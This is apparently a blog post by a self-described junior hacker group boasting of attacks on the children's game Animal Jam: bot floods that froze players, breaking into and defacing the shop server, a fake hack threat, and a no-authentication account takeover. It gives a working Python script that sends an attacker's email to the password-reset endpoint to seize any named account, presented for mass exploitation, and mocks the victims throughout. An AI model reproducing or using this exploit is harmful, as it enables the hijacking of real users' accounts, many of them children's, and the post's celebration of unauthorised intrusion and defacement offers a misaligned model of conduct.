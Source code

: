 ```yaml
---
layout: post
title: "Electric Boogaloo: Hacking Animal Jam"
subtitle: "~ AKA, how we pwned Animal Jam ~"
date: 2021-9-7
author: chob
tags: pentesting
finished: true
excerpt_separator: <!--more-->
---
```


> **DISCLAIMER**: The aim of this post is not to offend or attack anyone. Instead it is to inform to you the story about how Animal Jam was pwned by us (AstroSquad). I do not condone malicious behavior. Thank you for understanding.

# Preface
As the title suggests, this post will touch on how me and a few other junior security researchers (also nicknamed "AstroSquad") were able to "hack" or "pwn" a poorly secured kids game called "Animal Jam". <!--more--> <br>

This all started when one of our researchers (psuedo named "Moon") looked into Animal Jam, he messed around with the API and told us that there wasn't a rate limit on the RPS (Request Per Second), one of us wrote a script to automate the registration process and made hundreds of bots that joined the game servers which froze players clients. They shortly added rate limit globally to the API. That was only the start, on August 6 2020, another one of our researchers (psuedo named "HellSec") found the IP of one of their boxes, we assumed that we couldn't get into it at first, but within a few hours, we managed to pwn the box. Surprisingly there was not much on the box, it was a AWS box and it was the box for the Animal Jam shop (**shop.animaljam.com**). With a limited time, we made a simple deface page and overwrote it to the index page.

<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/compilation.png" target="_blank"><img class="centerImgMedium" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/compilation.png"></a>

As you can see from the compilation above, they believed we had a apparent "ip logger" and other malicious items, this gave us a notorious reputation as this group of 40 year olds in their mothers basement that are very **1337**, which was not the case. From there, we wanted to test how much the community and the company WildWorks was afraid of apparent fake threats. So around October 2020, we made a threat that we were going to "hack" Animal Jam on halloween, the community freaked and made a bunch of YouTube videos with WildWorks putting their servers on lockdown. It was the biggest lawl for us. <br>

Now that you understand the context before the main pwn; without further ado, let's get into the main pwn. On August 16, 2021, we discovered a 0day **no-auth** full account takeover on Animal Jam. How? simple. A fucking password reset endpoint. Let me repeat that, a fucking **password reset endpoint**, someone must've been some crack while writing the endpoint lol (╯°□°）╯︵ ┻━┻.

****
# Discovering the vulnerability
Basically, one of our researchers used Fiddler to capture all the traffic coming from the Animal Jam application because he was capturing all the traffic he managed to come across the `/disable` endpoint. Every account on Animal Jam is linked to a certain "parent account", and since he got the endpoint for `/disable` he was able to look at the post data (the data that is sent with the post request) he noticed on the post data you were able to send a custom email in the post data so he replaced the email, not expecting anything until.. he recieved a email from Animal Jam and funny enough, once he clicked on the disable account link, it automatically overrided the email that is already linked to the account with the custom email you put in.

<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/lawl.gif" target="_blank"><img class="centerImgSmall" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/lawl.gif"></a>

Only issue with this is that it didn't disable the player, but knowing it did link the account, he searched for other endpoints using Fiddler that had the same post data requirements, until.. he found the `/send_password_reset` endpoint and by sending the request he was able to takeover ANY players account by sending a post request with the generosity with of course, no authentication at all. He then alerted us about this and showed it wasn't a joke on a screenshare.

<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/meme.jpg" target="_blank"><img class="centerImgLarge" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/meme.jpg"></a>

****
# Mass Exploitation
Now we know the vulnerability, how do we use it on a large scale attack? Simple! All we need to do is write a script to send a post request with the post data and the target with a burner email.

### - Writing the exploit using python3
Lets start by making a Python script and then importing the request library for sending the post request and sys for argument handling and then supplying the endpoint with the request:
```python
#!/usr/env/python3
import requests
import sys

class Exploit:

    def __init__(self, username, email):
        self.username = username
        self.email = email

    def execute(self):
        endpoint = f'https://api.animaljam.com/game_account/{username}/send_password_reset/desktop'
        return requests.post(url=endpoint, data={'email': email, 'user_name': username}, headers={'auth': 'null'})

def main():
    if len(sys.argv) < 3:
        print(f'Usage: py {sys.argv[0]} <USERNAME> <YOUR_EMAIL>')
        sys.exit()

    username = sys.argv[1]
    email = sys.argv[2]

    Exploit(username, email).execute()

if __name__ == '__main__':
    main()
```
and **PWNED**!! Now you can takeover anyones account just by supplying the username and a burner email lol. <br>
<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/beamed.png" target="_blank"><img class="centerImgSmall" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/beamed.png"></a>

Although it was patched due to the security advisory we released the next day because Animal Jam was having some issues making a patch lol, here's a gif & a image of us on the AJHQ account on the parents dashboard using this exploit.

<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/ajhq.gif" target="_blank"><img class="centerImgSmall" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/ajhq.gif"></a>
<a href="/img/Electric-Boogaloo:-Hacking-Animal-Jam/ajhq.png" target="_blank"><img class="centerImgLarge" src="/img/Electric-Boogaloo:-Hacking-Animal-Jam/ajhq.png"></a>

****
# Conclusion
This company "Animal Jam" is a example of greed over good security, if any companies are reading this, don't be like these guys, but hey,
thank you for reading if you got this far, this is my first blog i've made and I'll be making more very soon and this was funny fun to make, if you enjoyed reading this, go ahead and share it (ﾟДﾟ)y─┛~~ 
